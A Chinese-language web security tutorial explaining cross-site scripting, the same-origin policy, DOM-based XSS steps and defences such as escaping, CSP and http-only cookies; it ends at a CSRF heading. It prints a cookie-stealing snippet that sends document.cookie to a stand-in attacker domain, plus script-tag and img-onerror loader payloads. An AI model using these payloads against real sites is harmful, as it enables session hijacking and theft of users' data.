 ```js
var i=new Image;
i.src="http://wahh-attacker.com/"+document.cookie
```

这段代码可让用户浏览器向wahh-attacker.com（攻击者拥有的一个域）提出一个请求。请求中包含用户访问应用程序的当前会话令牌

攻击者监控访问wahh-attacker.com的请求并收到用户的请求。攻击者使用截获的令牌劫持用户的会话，从而访问该用户的个人信息，并"代表"该用户执行任意操作

浏览器不允许任何旧有脚本访问一个站点的cookie，否则，会话就很容易被劫持。而且，只有发布cookie的站点能够访问这些cookie： 仅在返回发布站点的HTTP请求中提交cookie；只有通过该站点返回的页面所包含或加载的JavaScript才能访问cookie。因此，如果 wahh-attacker.com上的一段脚本查询 document. cookie，它将无法获得wahh-app.com发布的cookie，劫持攻击也不会成功。

利用XSS漏洞的攻击之所以取得成功，是因为攻击者的恶意JavaScript是由wahh-app.com送交给它的。和从wahh-app.com收到的任何 JavaScript一样，浏览器执行这段脚本，因为用户信任wahh-app.com。这也就是为何攻击的脚本能够访问wahh-app.com发布的 cookie的原因，虽然它实际来自其他地方。这也是为何该漏洞被称作跨站点脚本的原因

一个域的页面可从另一个域加载一段脚本，并在自己的域内执行这段脚本。这是因为脚本被假定包含代码而非数据，因此跨域访问并不会泄露任何敏感信息。如上所述，在某些情况下，这种假设被违反了，从而导致跨域攻击。

一个域的页面不能读取或修改属于另一个域的cookie或其他DOM数据（如上例所述）。

**3）DOM 型 XSS 的攻击步骤：**

1. 攻击者构造出特殊的 URL，其中包含恶意代码。
2. ⽤户打开带有恶意代码的 URL。
3. ⽤户浏览器接收到响应后解析执⾏，前端 JavaScript 取出 URL 中的恶意代码并执⾏。
4. 恶意代码窃取⽤户数据并发送到攻击者的⽹站，或者冒充⽤户的⾏为，调⽤⽬标⽹站接⼝执⾏攻击者指定的操作。

基于`DOM`的型`XSS`漏洞类似于反射型`XSS`，但其变化多端，总之一句话，各种姿势，各种插，只要能执行我的`Js` ，利用`<script>`、`<img>`等标签允许跨域请求资源。
经典案例是可以将标签写入到软件的意见反馈中，当管理员查看留言的反馈即触发`XSS`，传递`cookie`与后台管理地址后就可以登录到后台了。

```js
<script scr="js_url"></script>
<img src=1 onerror=appendChild(createElement('script')).src='js_url' />
```



DOM 型 XSS 跟前两种 XSS 的区别：DOM 型 XSS 攻击中，取出和执⾏恶意代码由浏览器端完成，属于前端JavaScript ⾃身的安全漏洞，⽽其他两种 XSS 都属于服务端的安全漏洞。

可以看到XSS危害如此之大， 那么在开发网站时就要做好防御措施，具体措施如下：

- 可以从浏览器的执行来进行预防，一种是使用纯前端的方式，不用服务器端拼接后返回（不使用服务端渲染）。另一种是对需要插入到 HTML 中的代码做好充分的转义。对于 DOM 型的攻击，主要是前端脚本的不可靠而造成的，对于数据获取渲染和字符串拼接的时候应该对可能出现的恶意代码情况进行判断。
- 使用 CSP ，CSP 的本质是建立一个白名单，告诉浏览器哪些外部资源可以加载和执行，从而防止恶意代码的注入攻击。

> 1. CSP 指的是内容安全策略，它的本质是建立一个白名单，告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦截由浏览器自己来实现。
> 2. 通常有两种方式来开启 CSP，一种是设置 HTTP 首部中的 Content-Security-Policy，一种是设置 meta 标签的方式

- 对一些敏感信息进行保护，比如 cookie 使用 http-only，使得脚本无法获取。也可以使用验证码，避免脚本伪装成用户执行一些操作。

- 在用户提交参数前，将提交的字符< 、>、&、" 、' 、+、/等进行转义，严格控制输出。
- 将输入转化为小写对比javascript:，若匹配则过滤。
- 将cookie设置为http-only,js脚本将无法读取到cookie信息。
- 纯前端渲染，明确innerText、setAttribute、style，将代码与数据分隔开。
- 避免不可信的数据拼接到字符串中传递给这些API，如DOM中的内联事件监听器，location、onclick、onerror、onload、onmouseover等，<a>标签的href属性，JavaScript的eval()、setTimeout()、setInterval()等，都能把字符串作为代码运行。
- 对于不受信任的输入，都应该限定一个合理的长度。
- 严格的CSP,禁止加载外域代码，禁止外域提交，禁止内联脚本执行等较为严格的方式

### 2.csrf有哪些 怎么防护
